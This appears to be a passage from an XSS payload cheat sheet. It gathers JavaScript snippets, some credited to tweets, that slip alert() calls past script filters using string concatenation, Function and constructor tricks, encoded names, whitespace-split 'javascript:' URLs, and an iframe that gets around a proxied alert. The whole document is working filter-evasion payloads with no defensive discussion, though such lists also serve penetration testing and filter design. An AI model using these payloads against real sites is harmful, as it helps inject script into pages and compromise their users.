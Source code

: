From [@quanyang](https://twitter.com/quanyang/status/1078536601184030721) tweet.

```javascript
prompt`${document.domain}`
document.location='java\tscript:alert(1)'
document.location='java\rscript:alert(1)'
document.location='java\tscript:alert(1)'
```

From [@404death](https://twitter.com/404death/status/1011860096685502464) tweet.

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout`alert\u0028document.domain\u0029`;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

Bypass using an alternate way to trigger an alert

```javascript
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
        if (exec_original) {
          return proxy.apply(this, arguments);
        }
      };
      XSSObject.lockdown(obj, name);
  };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```
